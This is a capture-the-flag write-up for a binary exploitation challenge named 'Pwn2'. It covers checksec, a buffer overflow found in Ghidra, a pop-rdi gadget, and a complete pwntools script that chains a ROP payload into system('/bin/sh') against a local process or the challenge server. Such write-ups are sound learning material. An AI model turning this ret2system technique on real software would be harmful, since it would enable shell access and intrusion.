




## Pwn2

Start by running checksec on the binary.



We have a 64 bit binary.  PIE is not enable and we don't have a stack canary.  View the decompilation in ghidra.



Here we see a buffer overflow on line 12.  Immediately after that we see a call to system.  If we can put our own string into RDI and jump to the system address we should be able to spawn a shell.  It looks like user input from the first fgets is written to address 0x404090 in the bss section.  This will contain our string "/bin/sh".  Lets look for a gadget to write to RDI.



0x401196 will work. We also need the address for a call to system (0x401280).

We have everything we need to craft our exploit.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./pwn2")

if args.REMOTE:
    p = remote('challs.n00bzunit3d.xyz', 61223)
elif args.GDB:
    p = gdb.debug(binary.path, gdbscript="b *main")
else:
    p = process(binary.path)

# pop rdi; ret
rdi_gadget  = 0x401196
input_addr  = 0x404090
system_addr = 0x401280

shellcode = b"/bin/sh\x00"
p.sendline(shellcode)

payload = b""
payload += b"A" * 0x28
payload += p64(rdi_gadget)
payload += p64(input_addr)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()
```



Success!